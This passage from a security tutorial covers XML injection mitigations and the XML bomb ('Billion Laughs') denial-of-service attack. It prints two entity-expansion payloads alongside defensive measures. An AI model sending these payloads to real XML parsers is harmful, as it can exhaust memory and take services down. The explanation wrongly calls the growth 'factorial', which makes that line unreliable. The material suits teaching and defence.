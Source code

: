 ### Mitigations

- Input validation and input sanitization.
- Parameterized queries and prepared statements when incorporating XML data into database operations.
- XML schema validation to enforce data integrity and prevent injection attacks.
- Limit XML processing capabilities to reduce the attack surface.
- Regularly update XML parsers and libraries to patch known vulnerabilities.

## XML Bomb

An XML bomb is a type of denial-of-service (DoS) attack where an XML document is crafted to consume excessive system resources when parsed by an XML parser.

- Recursive or nested elements designed to expand exponentially when parsed.
- XML encodes entities that expand to exponential sizes.
- Consumes large memory, CPU, or disk space when processed by an XML parser.
- Can lead to system downtime, service disruption, or unavailability.

The reason why its also called as **Billion Laughs Attack** is because the XML entities referenced in the file are written as "lol1" through "lol9". Each of these references the line before it, with the pattern continuing all the way up until it creates a billion "lols" due to the factorial nature.

```xml
<!DOCTYPE lol [
  <!ENTITY lol "lol">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
]>
<root>
  &lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;
</root>
```

Another form of XML Bomb:

```xml
<!DOCTYPE bomb [
  <!ENTITY a "1234567890">
  <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
  <!ENTITY c "&b;&b;&b;&b;&b;&b;&b;&b;&b;&b;">
  <!ENTITY d "&c;&c;&c;&c;&c;&c;&c;&c;&c;&c;">
  <!ENTITY e "&d;&d;&d;&d;&d;&d;&d;&d;&d;&d;">
]>
<root>
  &e;&e;&e;&e;&e;&e;&e;&e;&e;&e;
</root>
 ```

**Mitigations:**

- Use secure XML parsers.
- Limit entity expansion.
- Implement resource usage limits.
